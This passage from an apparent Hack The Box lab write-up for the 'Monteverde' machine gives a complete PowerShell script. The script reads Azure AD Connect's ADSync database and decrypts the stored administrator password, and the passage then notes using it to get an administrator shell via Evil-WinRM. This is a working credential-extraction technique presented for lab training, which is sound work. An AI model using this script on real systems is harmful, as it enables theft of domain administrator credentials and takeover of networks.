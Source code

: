 You can see that the `administrator` credentials were used for Azure Active Directory Connect. Here's the entire script to decrypt the `administrator`'s password.

```powershell
$connection = "server=monteverde;database=ADSync;integrated security=true"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList $connection
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

# Write-Host $config

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

Write-Host $decrypted
```

{% include image.html image_alt="c24ea0aa.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/c24ea0aa.png" %}

There you have it! With the `administrator`'s password, it's trivial to get another shell with `administrator` privileges through Evil-WinRM.

{% include image.html image_alt="dae9ba3c.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/dae9ba3c.png" %}

The file `root.txt` is at `administrator`'s desktop.

{% include image.html image_alt="25fa0c27.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/25fa0c27.png" %}

[1]: https://www.hackthebox.eu/home/machines/profile/223
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
